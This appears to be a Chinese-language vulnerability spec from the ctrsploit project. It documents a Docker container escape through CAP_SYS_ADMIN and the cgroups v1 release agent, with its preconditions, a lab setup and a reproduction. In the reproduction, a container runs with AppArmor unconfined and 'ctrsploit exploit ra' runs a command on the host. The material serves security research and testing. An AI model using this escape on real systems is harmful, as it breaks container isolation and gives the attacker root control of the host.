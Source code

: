 ```yaml
---

tags: sploit
author: ssst0n3
spec-version: v0.1.0
version: v0.1.0
changelog:
    - v0.1.0: init

---
```


# docker CAP_SYS_ADMIN cgroups v1 release agent 逃逸 

[edit](https://github.com/ctrsploit/sploit-spec/edit/main/vul.md)

## 1. 漏洞介绍

TODO

## 2. 利用场景

利用容器的不安全配置逃逸

## 3. 前提条件

1. 拥有cap_sys_admin
2. 容器内root
3. cgroups版本为v1
4. cgroups拥有top level subsystem
5. 允许执行mount系统调用(例如未开启 seccomp 和 selinux/apparmor)

## 4. 漏洞存在性检查

`ctrsploit checksec cap_sys_admin`

## 5. 漏洞复现

### 5.1 复现环境

下面以 [ssst0n3/docker_archive:ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11_v0.1.0](https://github.com/ssst0n3/docker_archive/tree/branch_ubuntu-22.04_docker-ce-24.0.7_containerd.io-1.6.27_runc-1.1.11) 作为复现环境。

```
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive
$ git checkout branch_ubuntu-20.04_docker-ce-19.03.15_docker-ce-cli-19.03.15_containerd.io-1.4.3_runc-1.0.0-rc92
$ docker compose -f docker-compose.kvm.yml up -d
$ ssh -p 19315 root@127.0.0.1
root@127.0.0.1's password: root
root@ubuntu:~# docker info
Client:
 Debug Mode: false

Server:
 Containers: 0
  Running: 0
  Paused: 0
  Stopped: 0
 Images: 0
 Server Version: 19.03.15
 Storage Driver: overlay2
  Backing Filesystem: extfs
  Supports d_type: true
  Native Overlay Diff: true
 Logging Driver: json-file
 Cgroup Driver: cgroupfs
 Plugins:
  Volume: local
  Network: bridge host ipvlan macvlan null overlay
  Log: awslogs fluentd gcplogs gelf journald json-file local logentries splunk syslog
 Swarm: inactive
 Runtimes: runc
 Default Runtime: runc
 Init Binary: docker-init
 containerd version: 269548fa27e0089a8b8278fc4fc781d7f65a939b
 runc version: ff819c7e9184c13b7c2607fe6c30ae19403a7aff
 init version: fec3683
 Security Options:
  apparmor
  seccomp
   Profile: default
 Kernel Version: 5.4.0-56-generic
 Operating System: Ubuntu 20.04.1 LTS
 OSType: linux
 Architecture: x86_64
 CPUs: 2
 Total Memory: 2.43GiB
 Name: ubuntu
 ID: 4X4W:QE26:IMGY:UHI5:QPCY:NDI5:KKFJ:YWUO:RNOC:QJKR:OHOQ:TXVR
 Docker Root Dir: /var/lib/docker
 Debug Mode: false
 Registry: https://index.docker.io/v1/
 Labels:
 Experimental: false
 Insecure Registries:
  127.0.0.0/8
 Live Restore Enabled: false

WARNING: No swap limit support
```

### 5.2 漏洞复现

启动存在不安全配置的容器。

```
root@ubuntu:~# docker run -ti --name poc --cap-add CAP_SYS_ADMIN --security-opt apparmor=unconfined ubuntu
```

下载 ctrsploit 步骤略，在容器内发起逃逸攻击。

```
root@e33b98bef3c3:/# ctrsploit --colorful checksec sys_admin
✔  cap_sys_admin	# Container can be escaped when has cap_sys_admin and use cgroups v1

root@e33b98bef3c3:/# ctrsploit exploit ra -c "cat /etc/hostname"
INFO[0000] Execute command: cat /etc/hostname           
INFO[0001] 
===========start of result==============
ubuntu
===========end of result==============
```
